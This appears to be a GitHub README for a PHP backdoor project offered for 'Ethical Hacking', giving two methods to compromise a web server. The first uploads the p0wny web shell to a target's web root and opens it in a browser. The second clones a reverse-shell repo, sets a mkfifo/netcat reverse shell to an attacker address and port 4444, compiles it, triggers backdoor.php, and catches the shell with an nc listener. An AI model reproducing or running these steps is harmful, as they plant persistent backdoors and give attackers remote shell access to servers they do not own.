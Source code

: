 ## Information

I am not responsible for any consequences caused by this script because this script was created for `Ethical Hacking` purposes.


## Methode 1

Upload PHPShell (Target Folder, Example : /var/www/html)
```
https://github.com/flozz/p0wny-shell.git
```
```
chmod -R 777 *
```

Access Web Server with Browser
```
http://targetwebsite.com/shell.php 
```

## Methode 2

## Target Side

Download Payload (Target Folder, Example : /var/www/html)
```
git clone https://github.com/anggrdwjy/php-reverse-shell.git
```
```
cd php-reverse-shell
```
```
chmod -R 777 *
```

Edit File : payload_nc.c
```
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.100.1 4444 >/tmp/f");  //Edit Line 5
```

Running File : gcc.sh
```
./gcc.sh
```

Access Web Server with Browser
```
http://targetwebsite.com/backdoor.php 
```

## Attacker Side
```
nc -tnlp 4444 
```

## Support

* [:octocat: Follow me on GitHub](https://github.com/anggrdwjy)
* [🔔 Subscribe me on Youtube](https://www.youtube.com/@anggarda.wijaya)

## References

* https://github.com/kurniawandata
* https://github.com/flozz/p0wny-shell
